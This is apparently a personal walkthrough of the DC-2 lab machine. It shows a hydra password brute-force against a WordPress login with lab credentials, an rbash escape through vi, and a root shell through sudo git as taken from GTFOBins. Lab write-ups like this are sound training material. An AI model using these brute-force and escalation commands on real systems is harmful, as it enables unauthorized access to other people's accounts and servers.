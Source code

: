 # DC-2

## Port Scan
```bash
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)

```

### Port 80: Wordpress

![[Pasted image 20220510071643.png]]

#### Username disclosure on the login screen

existing user

![[Pasted image 20220510072513.png]]

non-existing user

![[Pasted image 20220510072518.png]]

a clue

![[Pasted image 20220510072549.png]]

nmap script scan `http-wordpress-users` found a few users.

![[Pasted image 20220510210044.png]]

`users.txt` contains the users pictured above

`dc2-wordlists.txt` contains the output of this `cewl` command:

```bash
cewl http://dc-2/ -m 6 -w dc2-wordlists.txt
```

Then did a dictionary attack with the .txt files mentioned above

```bash
hydra -L users.txt -P dc2-wordlists.txt -s 80 dc-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&testcookie='1'&wp-submit='Log+In':F=The password you entered"
```

found 2 good sets of credentials

![[Pasted image 20220510210316.png]]

`tom: parturient`

`jerry: adipiscing`

another clue

![[Pasted image 20220510210718.png]]

I got impatient looking for a way to exploit wordpress, and discovered that tom is able to log in via ssh

![[Pasted image 20220510212320.png]]

BUUUUT it's an rbash shell

![[Pasted image 20220510212441.png]]

Maybe one of the available binaries will be helpful

![[Pasted image 20220510214803.png]]

was able to break out with some [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#shell)

```bash
vi
:set shell=/bin/sh
:shell
```


![[Pasted image 20220510214943.png]]

I was able to `su` to jerry

```bash
/bin/su jerry
```

the password was the same one from wordpress `adipiscing`

![[Pasted image 20220510215231.png]]

'no hints' they say. But that last line seems like a cheesy joke. Maybe SUID for `git` or something similar is going to be the root path.

lol

![[Pasted image 20220510215627.png]]

[GTFOBins](https://gtfobins.github.io/gtfobins/git/#sudo) to the rescue again!

I opted for path `b` in SUDO

```bash
sudo git -p help config
!/bin/sh
```

![[Pasted image 20220510215739.png]]

![[Pasted image 20220510215916.png]]